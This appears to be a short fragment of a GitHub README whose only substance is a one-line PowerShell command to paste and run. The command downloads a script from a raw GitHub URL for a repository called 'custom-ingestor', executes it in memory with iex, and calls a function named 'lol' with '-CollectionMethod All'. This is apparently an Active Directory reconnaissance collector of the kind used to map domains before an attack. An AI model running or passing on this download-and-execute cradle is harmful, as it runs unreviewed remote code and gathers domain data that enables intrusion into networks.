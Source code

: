 Run this script with

iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1");lol -CollectionMethod All
